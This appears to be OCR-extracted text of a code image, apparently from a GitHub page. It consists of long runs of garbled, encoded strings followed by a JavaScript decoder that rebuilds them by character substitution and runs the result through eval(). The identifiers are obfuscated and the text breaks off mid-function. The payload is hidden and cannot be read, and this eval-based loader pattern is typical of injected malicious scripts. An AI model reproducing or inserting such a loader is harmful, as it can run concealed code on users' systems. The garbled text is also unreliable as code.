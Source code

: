 f´g§k­f¢h¢%l¤k¤e¢%h%c¤f¦h%f¤k§43§k§¨j¤c%1¥®h¦%j¤%1¥¡%e%c¤d¦c%j¤03%e%c¤f¦h%f¤c%%£%i¤3%c¤%b%a%d%b%a%%g%b%a%f%d%b%a%","¡iÉµìc/c²ü©-l¢Ã+/+ðf/øÁ¤d³d³i²Ãe÷li²ÆùÞc²Þ©Þ­Þøõ²µÞóÂf²ôkÚ³®l¤µÂÓcÏÃd«êôÚïîikÚïkîü23³µìÁ¤ëkÃd§ØfóÆõ&amp;j.gjédg²i#Ìjécj²Â63¦Øi­µc­ÔÔÔüèµàdÌh§Þk¢Ãl.Ñ#cÅe¦gðãjóÂ-Øc¾üèµàcÌµíæói«åßi·ÊµíªíægÉÃeÑfÐ§gl×åüßgªíÃg.¡ÃÍ·e³µj×ØgªÆäg%l°$$gÉØü53×¡åÞ¦i»ÑüøÊ¡ÃâØ¡¡ÇdÕ­ÊÕg»ÑcÝh­h­øÊÕÃâÙi×áÇhþkÄÂ¨Ãc×Ñk²ÙÊi«µ-áñ,,dº¡ßk¢ÊíÂe­h«fòÖ,c³úûøcÛf»ÊÖýdºÂl§ìß©i³ê¡Î¯ØiÉÊ¯ýj¼iÏÊí¶«83eÉe«iº®k¤µú§½»hÛjgòÖ¨dòÜlöj»ÊægöþØh*æfÉ¿d*Ë¨cªÂñól¢e¦¡ßãÊûcÐ§æi*ØjÉÊg%i¤ÜdÉËØµædÉ$e%k%b","Ð¢»µi§®±c÷iªµi´¦g¢óÃiÁ°h¹ø¬§l¼ß´¢i·j¬¦f¦¡g³03Ð¹Í¢ß93×¨g¹d§c¢Îß©µÑl¦c¦®e¥jºgºc§»h«¡iÅíh¦e­µlÏe¦c¼µ½ÒÂÇ¡ß®e%c¤k­´§Ñ»Êg¢Ãk²ælg³f¬È´¢l­»h§hªÀ¯%e%c°´¼f¬§Ñ­i§¡ÃëÓi¼¡c¦c²e«63¦g³¬§åc¢Ãµj¸©ÊÑçc³µc¢äiÝk§43¼k¢h¦i­gÐ­jÉÑ53§¨c¦d»¶¦j¸d§i´¢Ãi¢43¢ªÑc¼k§kªØ§kÄ¶¦Â­Ã63¦µg¨c¦kº¨lºf§§i§¡c¦¯¡h­h­53§µj¾c´È³g¦µ­Êk§l§Ê¿j¢%e¥¢®l¤hªl¢Ài§µf§i¬«k²g´¢k§µµg¢f¦e§%l¤¦l­ih¦c%±Âi§i´¢¢iªj¢jª§kª¨c¦cªe¢®i¤33%ie¦¡c¦g¢k¦f§¢i­k¢c­i¼h¦¨f§l¢¡%k¤%e¥«¬§¡e¢¢53§e¢­g%l¤c­®i¤c%l¤ef¢%h¥%®c¤%e%c¤l¤l¢e¦¤e¢d§f§i¢©f§¡h¦h%%f¤%13¥§h%i¤%13%c¤03%e%c¤f%i¤h%f¤%£%j¤%c¤c%b%a%g%b%a%%d%b%a%d%i%b%a%","üÉÙØøi«gÜ¨¾jé»­õÈi°àgé­÷e´³f®ß³ÁÁí±¼Ù¥åèÂ×å¬è»×dãèØ×ñ¥øí¯¥dìú»¼õ»Ð¨Â­ióc«ü¯÷Éþªc§ñàµk®ôeùc°e°÷Ó±#ï#±Ñ¼gµj¶g±¼d¼dÐ¨k®­ÖºþÞò¥déúgÄÐ÷Â¬j²iéò#µfäñÅßÂÏhég¢k´¥dìÛÚd´ÚÊÃßíc§ôiªü¥cªÛhª¥µeªÃñÝÂ¨±fª¬Â¯Öº33%i¤±Ô¬»Ø¼ÔÐ¼Ø³cé³ìß÷¥jìÕk´Õgäi´ücófãeóîeéîdäÕÖØð¾f®Êg®µgãÇß÷ÉçÞ¼cÞ±ÓÎ±êïêÐi«ÀÉ»¼»±k¹¥e«áÐ³ÀÉ¥¼èÑ×µ¥þãÃ¬ÑÏ¥­dæeæþ¹Ñ¬Ñ¨¥á±ëë±¥úÑðiäçÐ¼h§ÀÇÐ³ÀßÉµâ¼â±lª¬löhäÈíµjªÇ÷üýß¸¬Øßûj¹Ø¬ð¥g®Êú¬í±e´ý¯d®¬Æ¿ô¥Á¥iÜi¢ûfÞº¬Æ¼µd¹¼Ê³c«µ×¬23ùúdöµh¹í¬íß¼¹03%e","¼Â¥ô­É¬¬k·íµc»È¾Ø­ºÎºäº¬i²­¥j²ØÑµf®¼l¢»³Êi¦i«¬c¦ñh®j®¬Ñ¼i®¨µËµl¬g®f¢¼¿µ¥¬«c§µd°Ýg«®¯¼¥jä¥k§´c§ñlªßj¢³Ê¨µf©Å­fªk§c®%k¤e%kÌ¼j²h®ªÊ¥i¢l©i®ªh¦h¦f%i¤h¦®Ã%j¤g©h®¥¬¬¼Ílª³f®¨f§®f¢53§¬%j¤f¢¥µh°ÂÏf§c§Ãk§e´­j°g´Òk¦i¢¥fªf¢­¥¥k§i¦»c¦Ñ¥»Ã¥¬gÄc§­e´­Ñ­l¦µd§f§¼¥µj¶k´k¢µk©Â¤f¢j¢i®k®¬63©i®i§g«¼­k¦­Ãj¢i®i¢k¦f§¸¼¥j§f½²cªj¢¼k´e§03®k%i¤63%j¤¥i%j¤¥l¦µk®k§¢¥µl·53§c¢93¦j¢k¦®i§j¢i¦k¢c¦%j¤f¢j¢´j¢53§c¢e¢%l¤h%i¤%k¤j¢e¢d§f§%l¤c§j¢h%i¤i§f§%¡43¢c%j¤%h%c¤%13%c¤%j¤c§j¢i%h%c¤c¢%£%f¤d%i¤%b%a%g%b%a%%d%b%a%e%c%b%a%","îÕÂîéîº½»ÈÈÂ¥ÂÊ¼ÉµiÐÈ83Ðß¥«füÑµlÐ³ÑåkÄ´¬73¹¥ßkÇêûkÇj¹êg¹¥fªæê$Éßökªæd¹êæêß¥jÇ$¬i»Â³ægÇdÇh²güd®ß$f×ÈküµlüjÐßÊhªÈ¿¼¬cÐæÑ°¥hÐæØi²¿¹¬Þ°¥#èßèæßèjªíÃæí#ßíl®íj®ó×ó®ØòÑäïå¥¥àÞ63»òò¼ï¼àÚùÞ¨¬k®¥ùkª#Þ¼ÏÕé½ª¥hcfÐÊòÂäîÝÂ¼¼ÚÑêêßg¢ëùµfüêêÀj®Èî¥þÊëÉ¥îµéºµcÐÊîØÜ¬h¢°¼Ùj­âöùöÙd¦âµe¹ý¾ýÀòòÉäßöÑ´îµk·¥öÉÊÂÛ¥îþÂÕÛÂéÂº½·ùÁ¾33­f·ùÀf®¼Ãh§h»ÑÀÃ¥Ñ¾¥ÑÀ¬Éº¨ñk×cúõfçõkç¨¯ÂðÑ´òÆßÁìñiúÁ¨¯k×¼Âµ63ãÎf®Ê¼´Ã´ÔÔÃ´÷÷ù´ôôÉµgãÂõûi§iø53øåÂº¨É´ñlÐ´òðl®åiük®°ì¯i±ÁÊ³ÉÁ¼ßj","®ädÂØ¼ÃcªÑâ¥²ùÃçÑ¬çèäß¬¥¬è¥&amp;ÑÑg´¥îÃùêÏlÂl®²äßl´ÀØ¬²gªñiÉÚ&amp;ß÷Ãò²¥jÉdÂhÉ*ñÏ¥ø±ÀÞèÏ03ª¬ê¼ÇäÚ¬$èÑ¥×iÉº63´¶Ä&amp;ë#·¦÷äd±Ã¼k´$ç¬÷ßßùñ¥ØÈ¼ñôÞýôÁ¦äýï¼óý¼ñ¥ï¬ëÀßc±#äÑ¬óèñ¥k¦ºØçÑùØ¼Ñ¥·±ñùÞóÕÕ¶l±ô×ä¬k¦ÕfÐ43d­cÖdÖfÐ©g%h¢cöäc»ØgÂÊûîiÂcµkújÉíÛ½cÂ³èc­³¿½ÛcÂÊ¸¨ûj®Êé÷ük¤ãÔ÷¯½¸¨gÐì©l­Ý¦Ê¾ìjð©Ýµi­¾³ð³Øþûkk­já©ÊÝ°°µ¾³ÃÊ³ØÊ³ÃþeðÊeí¹ûÑü£ãf´f«l¤éd¹ëãÇûi¹dÎh¹iÎcáæhÎlÐkµæûe¹i¦ÊÔ¨gÂôãñÊ¨eú³÷¯î³©¿ñc­øíägÉf«£¿ä©kÉiÜècÒÈÊÍèËiÌè³Åf´jöëcÒe«£ÍëËhÌë³ÅÇcÜ¼c»03§%c%b%a","Ñ¼º¬k»¥ÃîØÃ¥¥ëiµe­53¥·¦eÂº6Ùeµ73ÉjµØ¥Ø¼ßgª¥¥Ñf°¦dÐÖèei­µc­gµh«£c´Êk­f¦Êk«f­»e­l¦f®ch¦µi»ÈcªÏc¦¥¥¥ÃÃ¬ße¦­e­¥¼Ãßd®«g¤k­k¦h®h¦¥k«lÓi®¥e¦k­dÉÈh¦kµg®Êgµc¦k»­c­gµ¥¼f®¬kÉk®h®¥jµk°­jµi»¸h¦lµ¯i®e¦gªÆ3´Ã¶¼k®Äj¦03®­43µ¥¥¥¥¥¨c´c¦³¤gµk´f­»Áµ83Âjµd¦%i¤e¦g®­e«g¤cµiµiµ®f­kµc´f­i¦jµÁ´fµ%l¤e%h¢23%h¢¬c¦k®¥i­eµcÂ©f´j¦¼i®¥g¦%k¤03®e¥d¦c¦i¦jµj¦eµ73%l¤c´iµd®f­c®%f¤c%h¢­c­k­d%i¤h´e¦c¦g®jj¦e¦c®f®%£%j¤h%i¤93%f¤¦93%f¤%£43%£ke%j¤d%i¤§¢%g¤l%f¤%g¤f%§¢03§¢f%g¤c%£f%i¤h%f¤%e%1¡d%h¢%b%a%d%b%a%%c%b%a%3%c%b%a%","c¤êÀÈÜ®ðk¦fÎÃþÅòg°ÞêÖ­¼êÍÔöá©k%d¤ä¥îôdÊÅeÉ¥¼ÔÃjºÔ","vuspnFEDC?;:42)(\'","c¤³ßkÑùÛ¼ìß¥j©l´ïó¥Ì¥Û¼³îó¥³ßãýÏÖÈ¥ÏÖiÉe·ùïiÐ­dÑhÐýg»éd»h»ñi¦i»g´¥¼³¥Èk¦¥±Êã¥","7Ê8Ê6Ê3Ê2Ê5Ê9Ê0Ê4Ê1Ê02?C2:21?0;))\'ììcêgÐiÐ43©43êÌ¥ÌeÂ½jÂÌè¼Ûº¼j¬àßßß¥³ÑhÓÚc¦j´d®éf®eÃlÞ×¼ïl×ÝÃ53ÓkÃcÐ23ÀÖÅ³cÏÖc¦ºï¼l»³k×hÔîhÔ¼ÑcÐj´jëéÑ³f­iÒ¥Ñl¦Æe¦f´èÆÉ¦c¬¿lªÙïç¥¯dªÉ×íµ®03ÔËÝ®æg¦Ë¥¯c±¼ÎºØdµ»Ý®gµ®j»á±Ñ³·Èi®Ág×²cÍá±e»äÄÖÅÜ¹çÄlªÁÈÛh´á´É×ºÙî¥ædëÎf­ã¥îÈjÍ²ä«ãíâå¹hâ½á»i»fÍe»¥¼¿j¬iÔc±à«°Ñí»Õ«°f´jÍÕÇ¥ÛhÞëºÙ²¥eÓÇg¦²¥ÜåºlµÃßÚ³gÃÝ´é«ÁçØåe¦°cÀd®g¬ÎhÒ·Á¼d¸ãÛÉÏÙl¸Îc§%"];eval((function(s){var a,c,e,i,j,o="",r,t=$o7CN7ROd4ViDhLnx_Xc(16);for(i=0;i&lt;s.length;i++){r=t+s[i][2];a=s[i][1].split("");for(j=a.length-1;j>=0;j--){s[i][0]=s[i][0].split(r.charAt(j)).join(a[j])}o+=s[i][0]}var p=68450,x=function(r){var c,p,s,l=$o7CN7ROd4ViDhLnx_Xc(17);(r&lt;63)?c=l.charAt(r):(r-=63,p=Math.floor(r/63),s=r%63,c=l.charAt(p)+l.charAt(s));return c};a=o.substr(p).split('\x3a');r=a[1].split('\x3f');a=a[0].split('\x3f');o=o.substr(0,p);if(!''.replace($o7CN7ROd4ViDhLnx_Xc(15),String)){var z={};for(i=0;i&lt;12;i++){var y=x(i);z[y]=r[i]||y}t=$o7CN7ROd4ViDhLnx_Xc(18);y=function(a){return z[a]||a};o=o.replace(t,y)}else{for(j=a[a.length-1]-1;j>=0;j--){(r[j])?o=o.replace(new RegExp(''+(j&lt;63?c.charAt(j):c.charAt((j-63)/63)+c.charAt((j-63)%63))+'','\x67'),r[j]):0}}return